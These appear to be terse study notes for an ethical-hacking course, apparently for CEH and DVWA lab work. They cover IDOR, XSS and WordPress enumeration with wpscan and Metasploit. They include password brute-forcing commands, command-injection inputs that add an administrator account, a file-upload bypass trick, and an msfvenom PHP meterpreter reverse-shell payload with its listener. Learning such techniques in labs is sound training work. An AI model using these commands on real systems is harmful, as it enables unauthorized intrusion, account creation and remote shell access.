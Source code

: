 1) Parameter Tampering = changing the last parameter = IDOR 
2) XSS = cross site scripting 
3) Enumeration and Hacking a web Application Using WPscan and metasploit  we can also use nmap to enumerate the users in wordpress 
	1) Commands for WPSCAN
		1) wpscan --url https://example/ --enumerate u (To enumerate the user) 
		2) wpscan --url http://172.16.0.27:8080/CEH/ -u james -P /path/pass.txt
		3) wpscan --url https://example/ --enumerate vp (To enumerate vuln plugins)

	2) Commands for  metasploit 
		1) use auxiliary/scanner/http/wordpress_login_enum
		2) options
		3) run
4) Exploiting remote command execution login -> set the DVWA security to low  -> issue the commands
	1) for command injection
		1) | hostname
		2) | whoami
		3) | net user
		4) | dir C:\
		5) | net user Test /Add
		6) | net localgroup Administrators Test /Add

5) Vega 
	1) Add IP see the vuln

6) Acunetix 
	1) vuln scanner

7) Upload Vuln 
	1) all were easy 
	2) in one at GIF98 to the end of file to upload it and rename it as upload.php.jpg
	3) https://techsphinx.com/hacking/hacking-for-beginners-file-upload-vulnerability/
	4) msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f raw
	5) use exploit/multi/handler
	6) show options set lhost as 10.10.10.10. set lport 1234 -> done 

8) Command injection will see in paper 
9) CSRF 
	1) we will se in paper 

